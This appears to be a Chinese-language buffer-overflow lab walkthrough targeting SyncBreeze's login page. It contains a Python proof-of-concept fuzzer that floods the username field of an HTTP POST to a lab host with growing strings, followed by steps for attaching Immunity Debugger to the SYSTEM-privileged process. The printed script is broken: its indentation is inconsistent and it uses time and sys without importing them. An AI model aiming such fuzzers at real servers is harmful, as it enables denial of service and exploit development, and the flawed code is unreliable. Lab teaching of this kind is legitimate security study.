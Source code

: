 HTTP答复显示用户名和密码无效，但这无关紧要，因为我们正在调查的漏洞在进行身份验证之前就存在。 我们可以复制此HTTP通信，并开始使用类似于以下内容的Python概念验证（PoC）脚本来构建我们的模糊器

### 构造Fuzzying

```python
#!/usr/bin/python
import socket 
 
size = 100		#初始化100个size
 
while(size < 2000):
    try:
        print "\nSending evil buffer with %s bytes" % size		#友好的显示发送了的size
        inputBuffer = "A" * size		#构造size个A
    	content = "username=" + inputBuffer + "&password=A" 	#将size个A加入到username位置
#增加头部信息，构造包
    	buffer = "POST /login HTTP/1.1\r\n"
    	buffer += "Host: 10.11.0.22\r\n"
    	buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Fire fox/52.0\r\n"
    	buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 \r\n"
    	buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    	buffer += "Referer: http://10.11.0.22/login\r\n"
    	buffer += "Connection: close\r\n"
    	buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    	buffer += "Content-Length: "+str(len(content))+"\r\n"
    	buffer += "\r\n"
    	buffer += content 
#发送包 
    	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    	s.connect(("10.11.0.22", 80))
        s.send(buffer)
        s.close()
        size += 100		#循环加100个长度
        time.sleep(10)		#sleep10用来增加一个手动延时，以便更好的交互
except:
    print "\nCould not connect!"
    sys.exit()
```

但是，我们必须首先确定几个SyncBreeze进程中的哪个正在TCP端口80上进行侦听。尽管Immunity Debugger的“侦听”列旨在显示此信息，但在我们的情况下不可用。 相反，我们将为此使用Microsoft TCPView或者是任务管理器的服务菜单，方法是先从“选项”菜单中取消选中“解析地址”，以获取如图所示的视图。

![image-20200414094856273](assets/5.BOF.assets/image-20200414094856273.png)

进程名称是syncbrs.exe，PID为688。在打开Immunity Debugger并导航到“文件”>“附加”时，不会出现此进程。 这是因为SyncBreeze**以SYSTEM特权运行**，并且Immunity Debugger是作为常规用户执行的。 要解决此问题，我们需要通过右键单击并选择“以管理员身份运行”，**以管理员特权**启动Immunity Debugger。
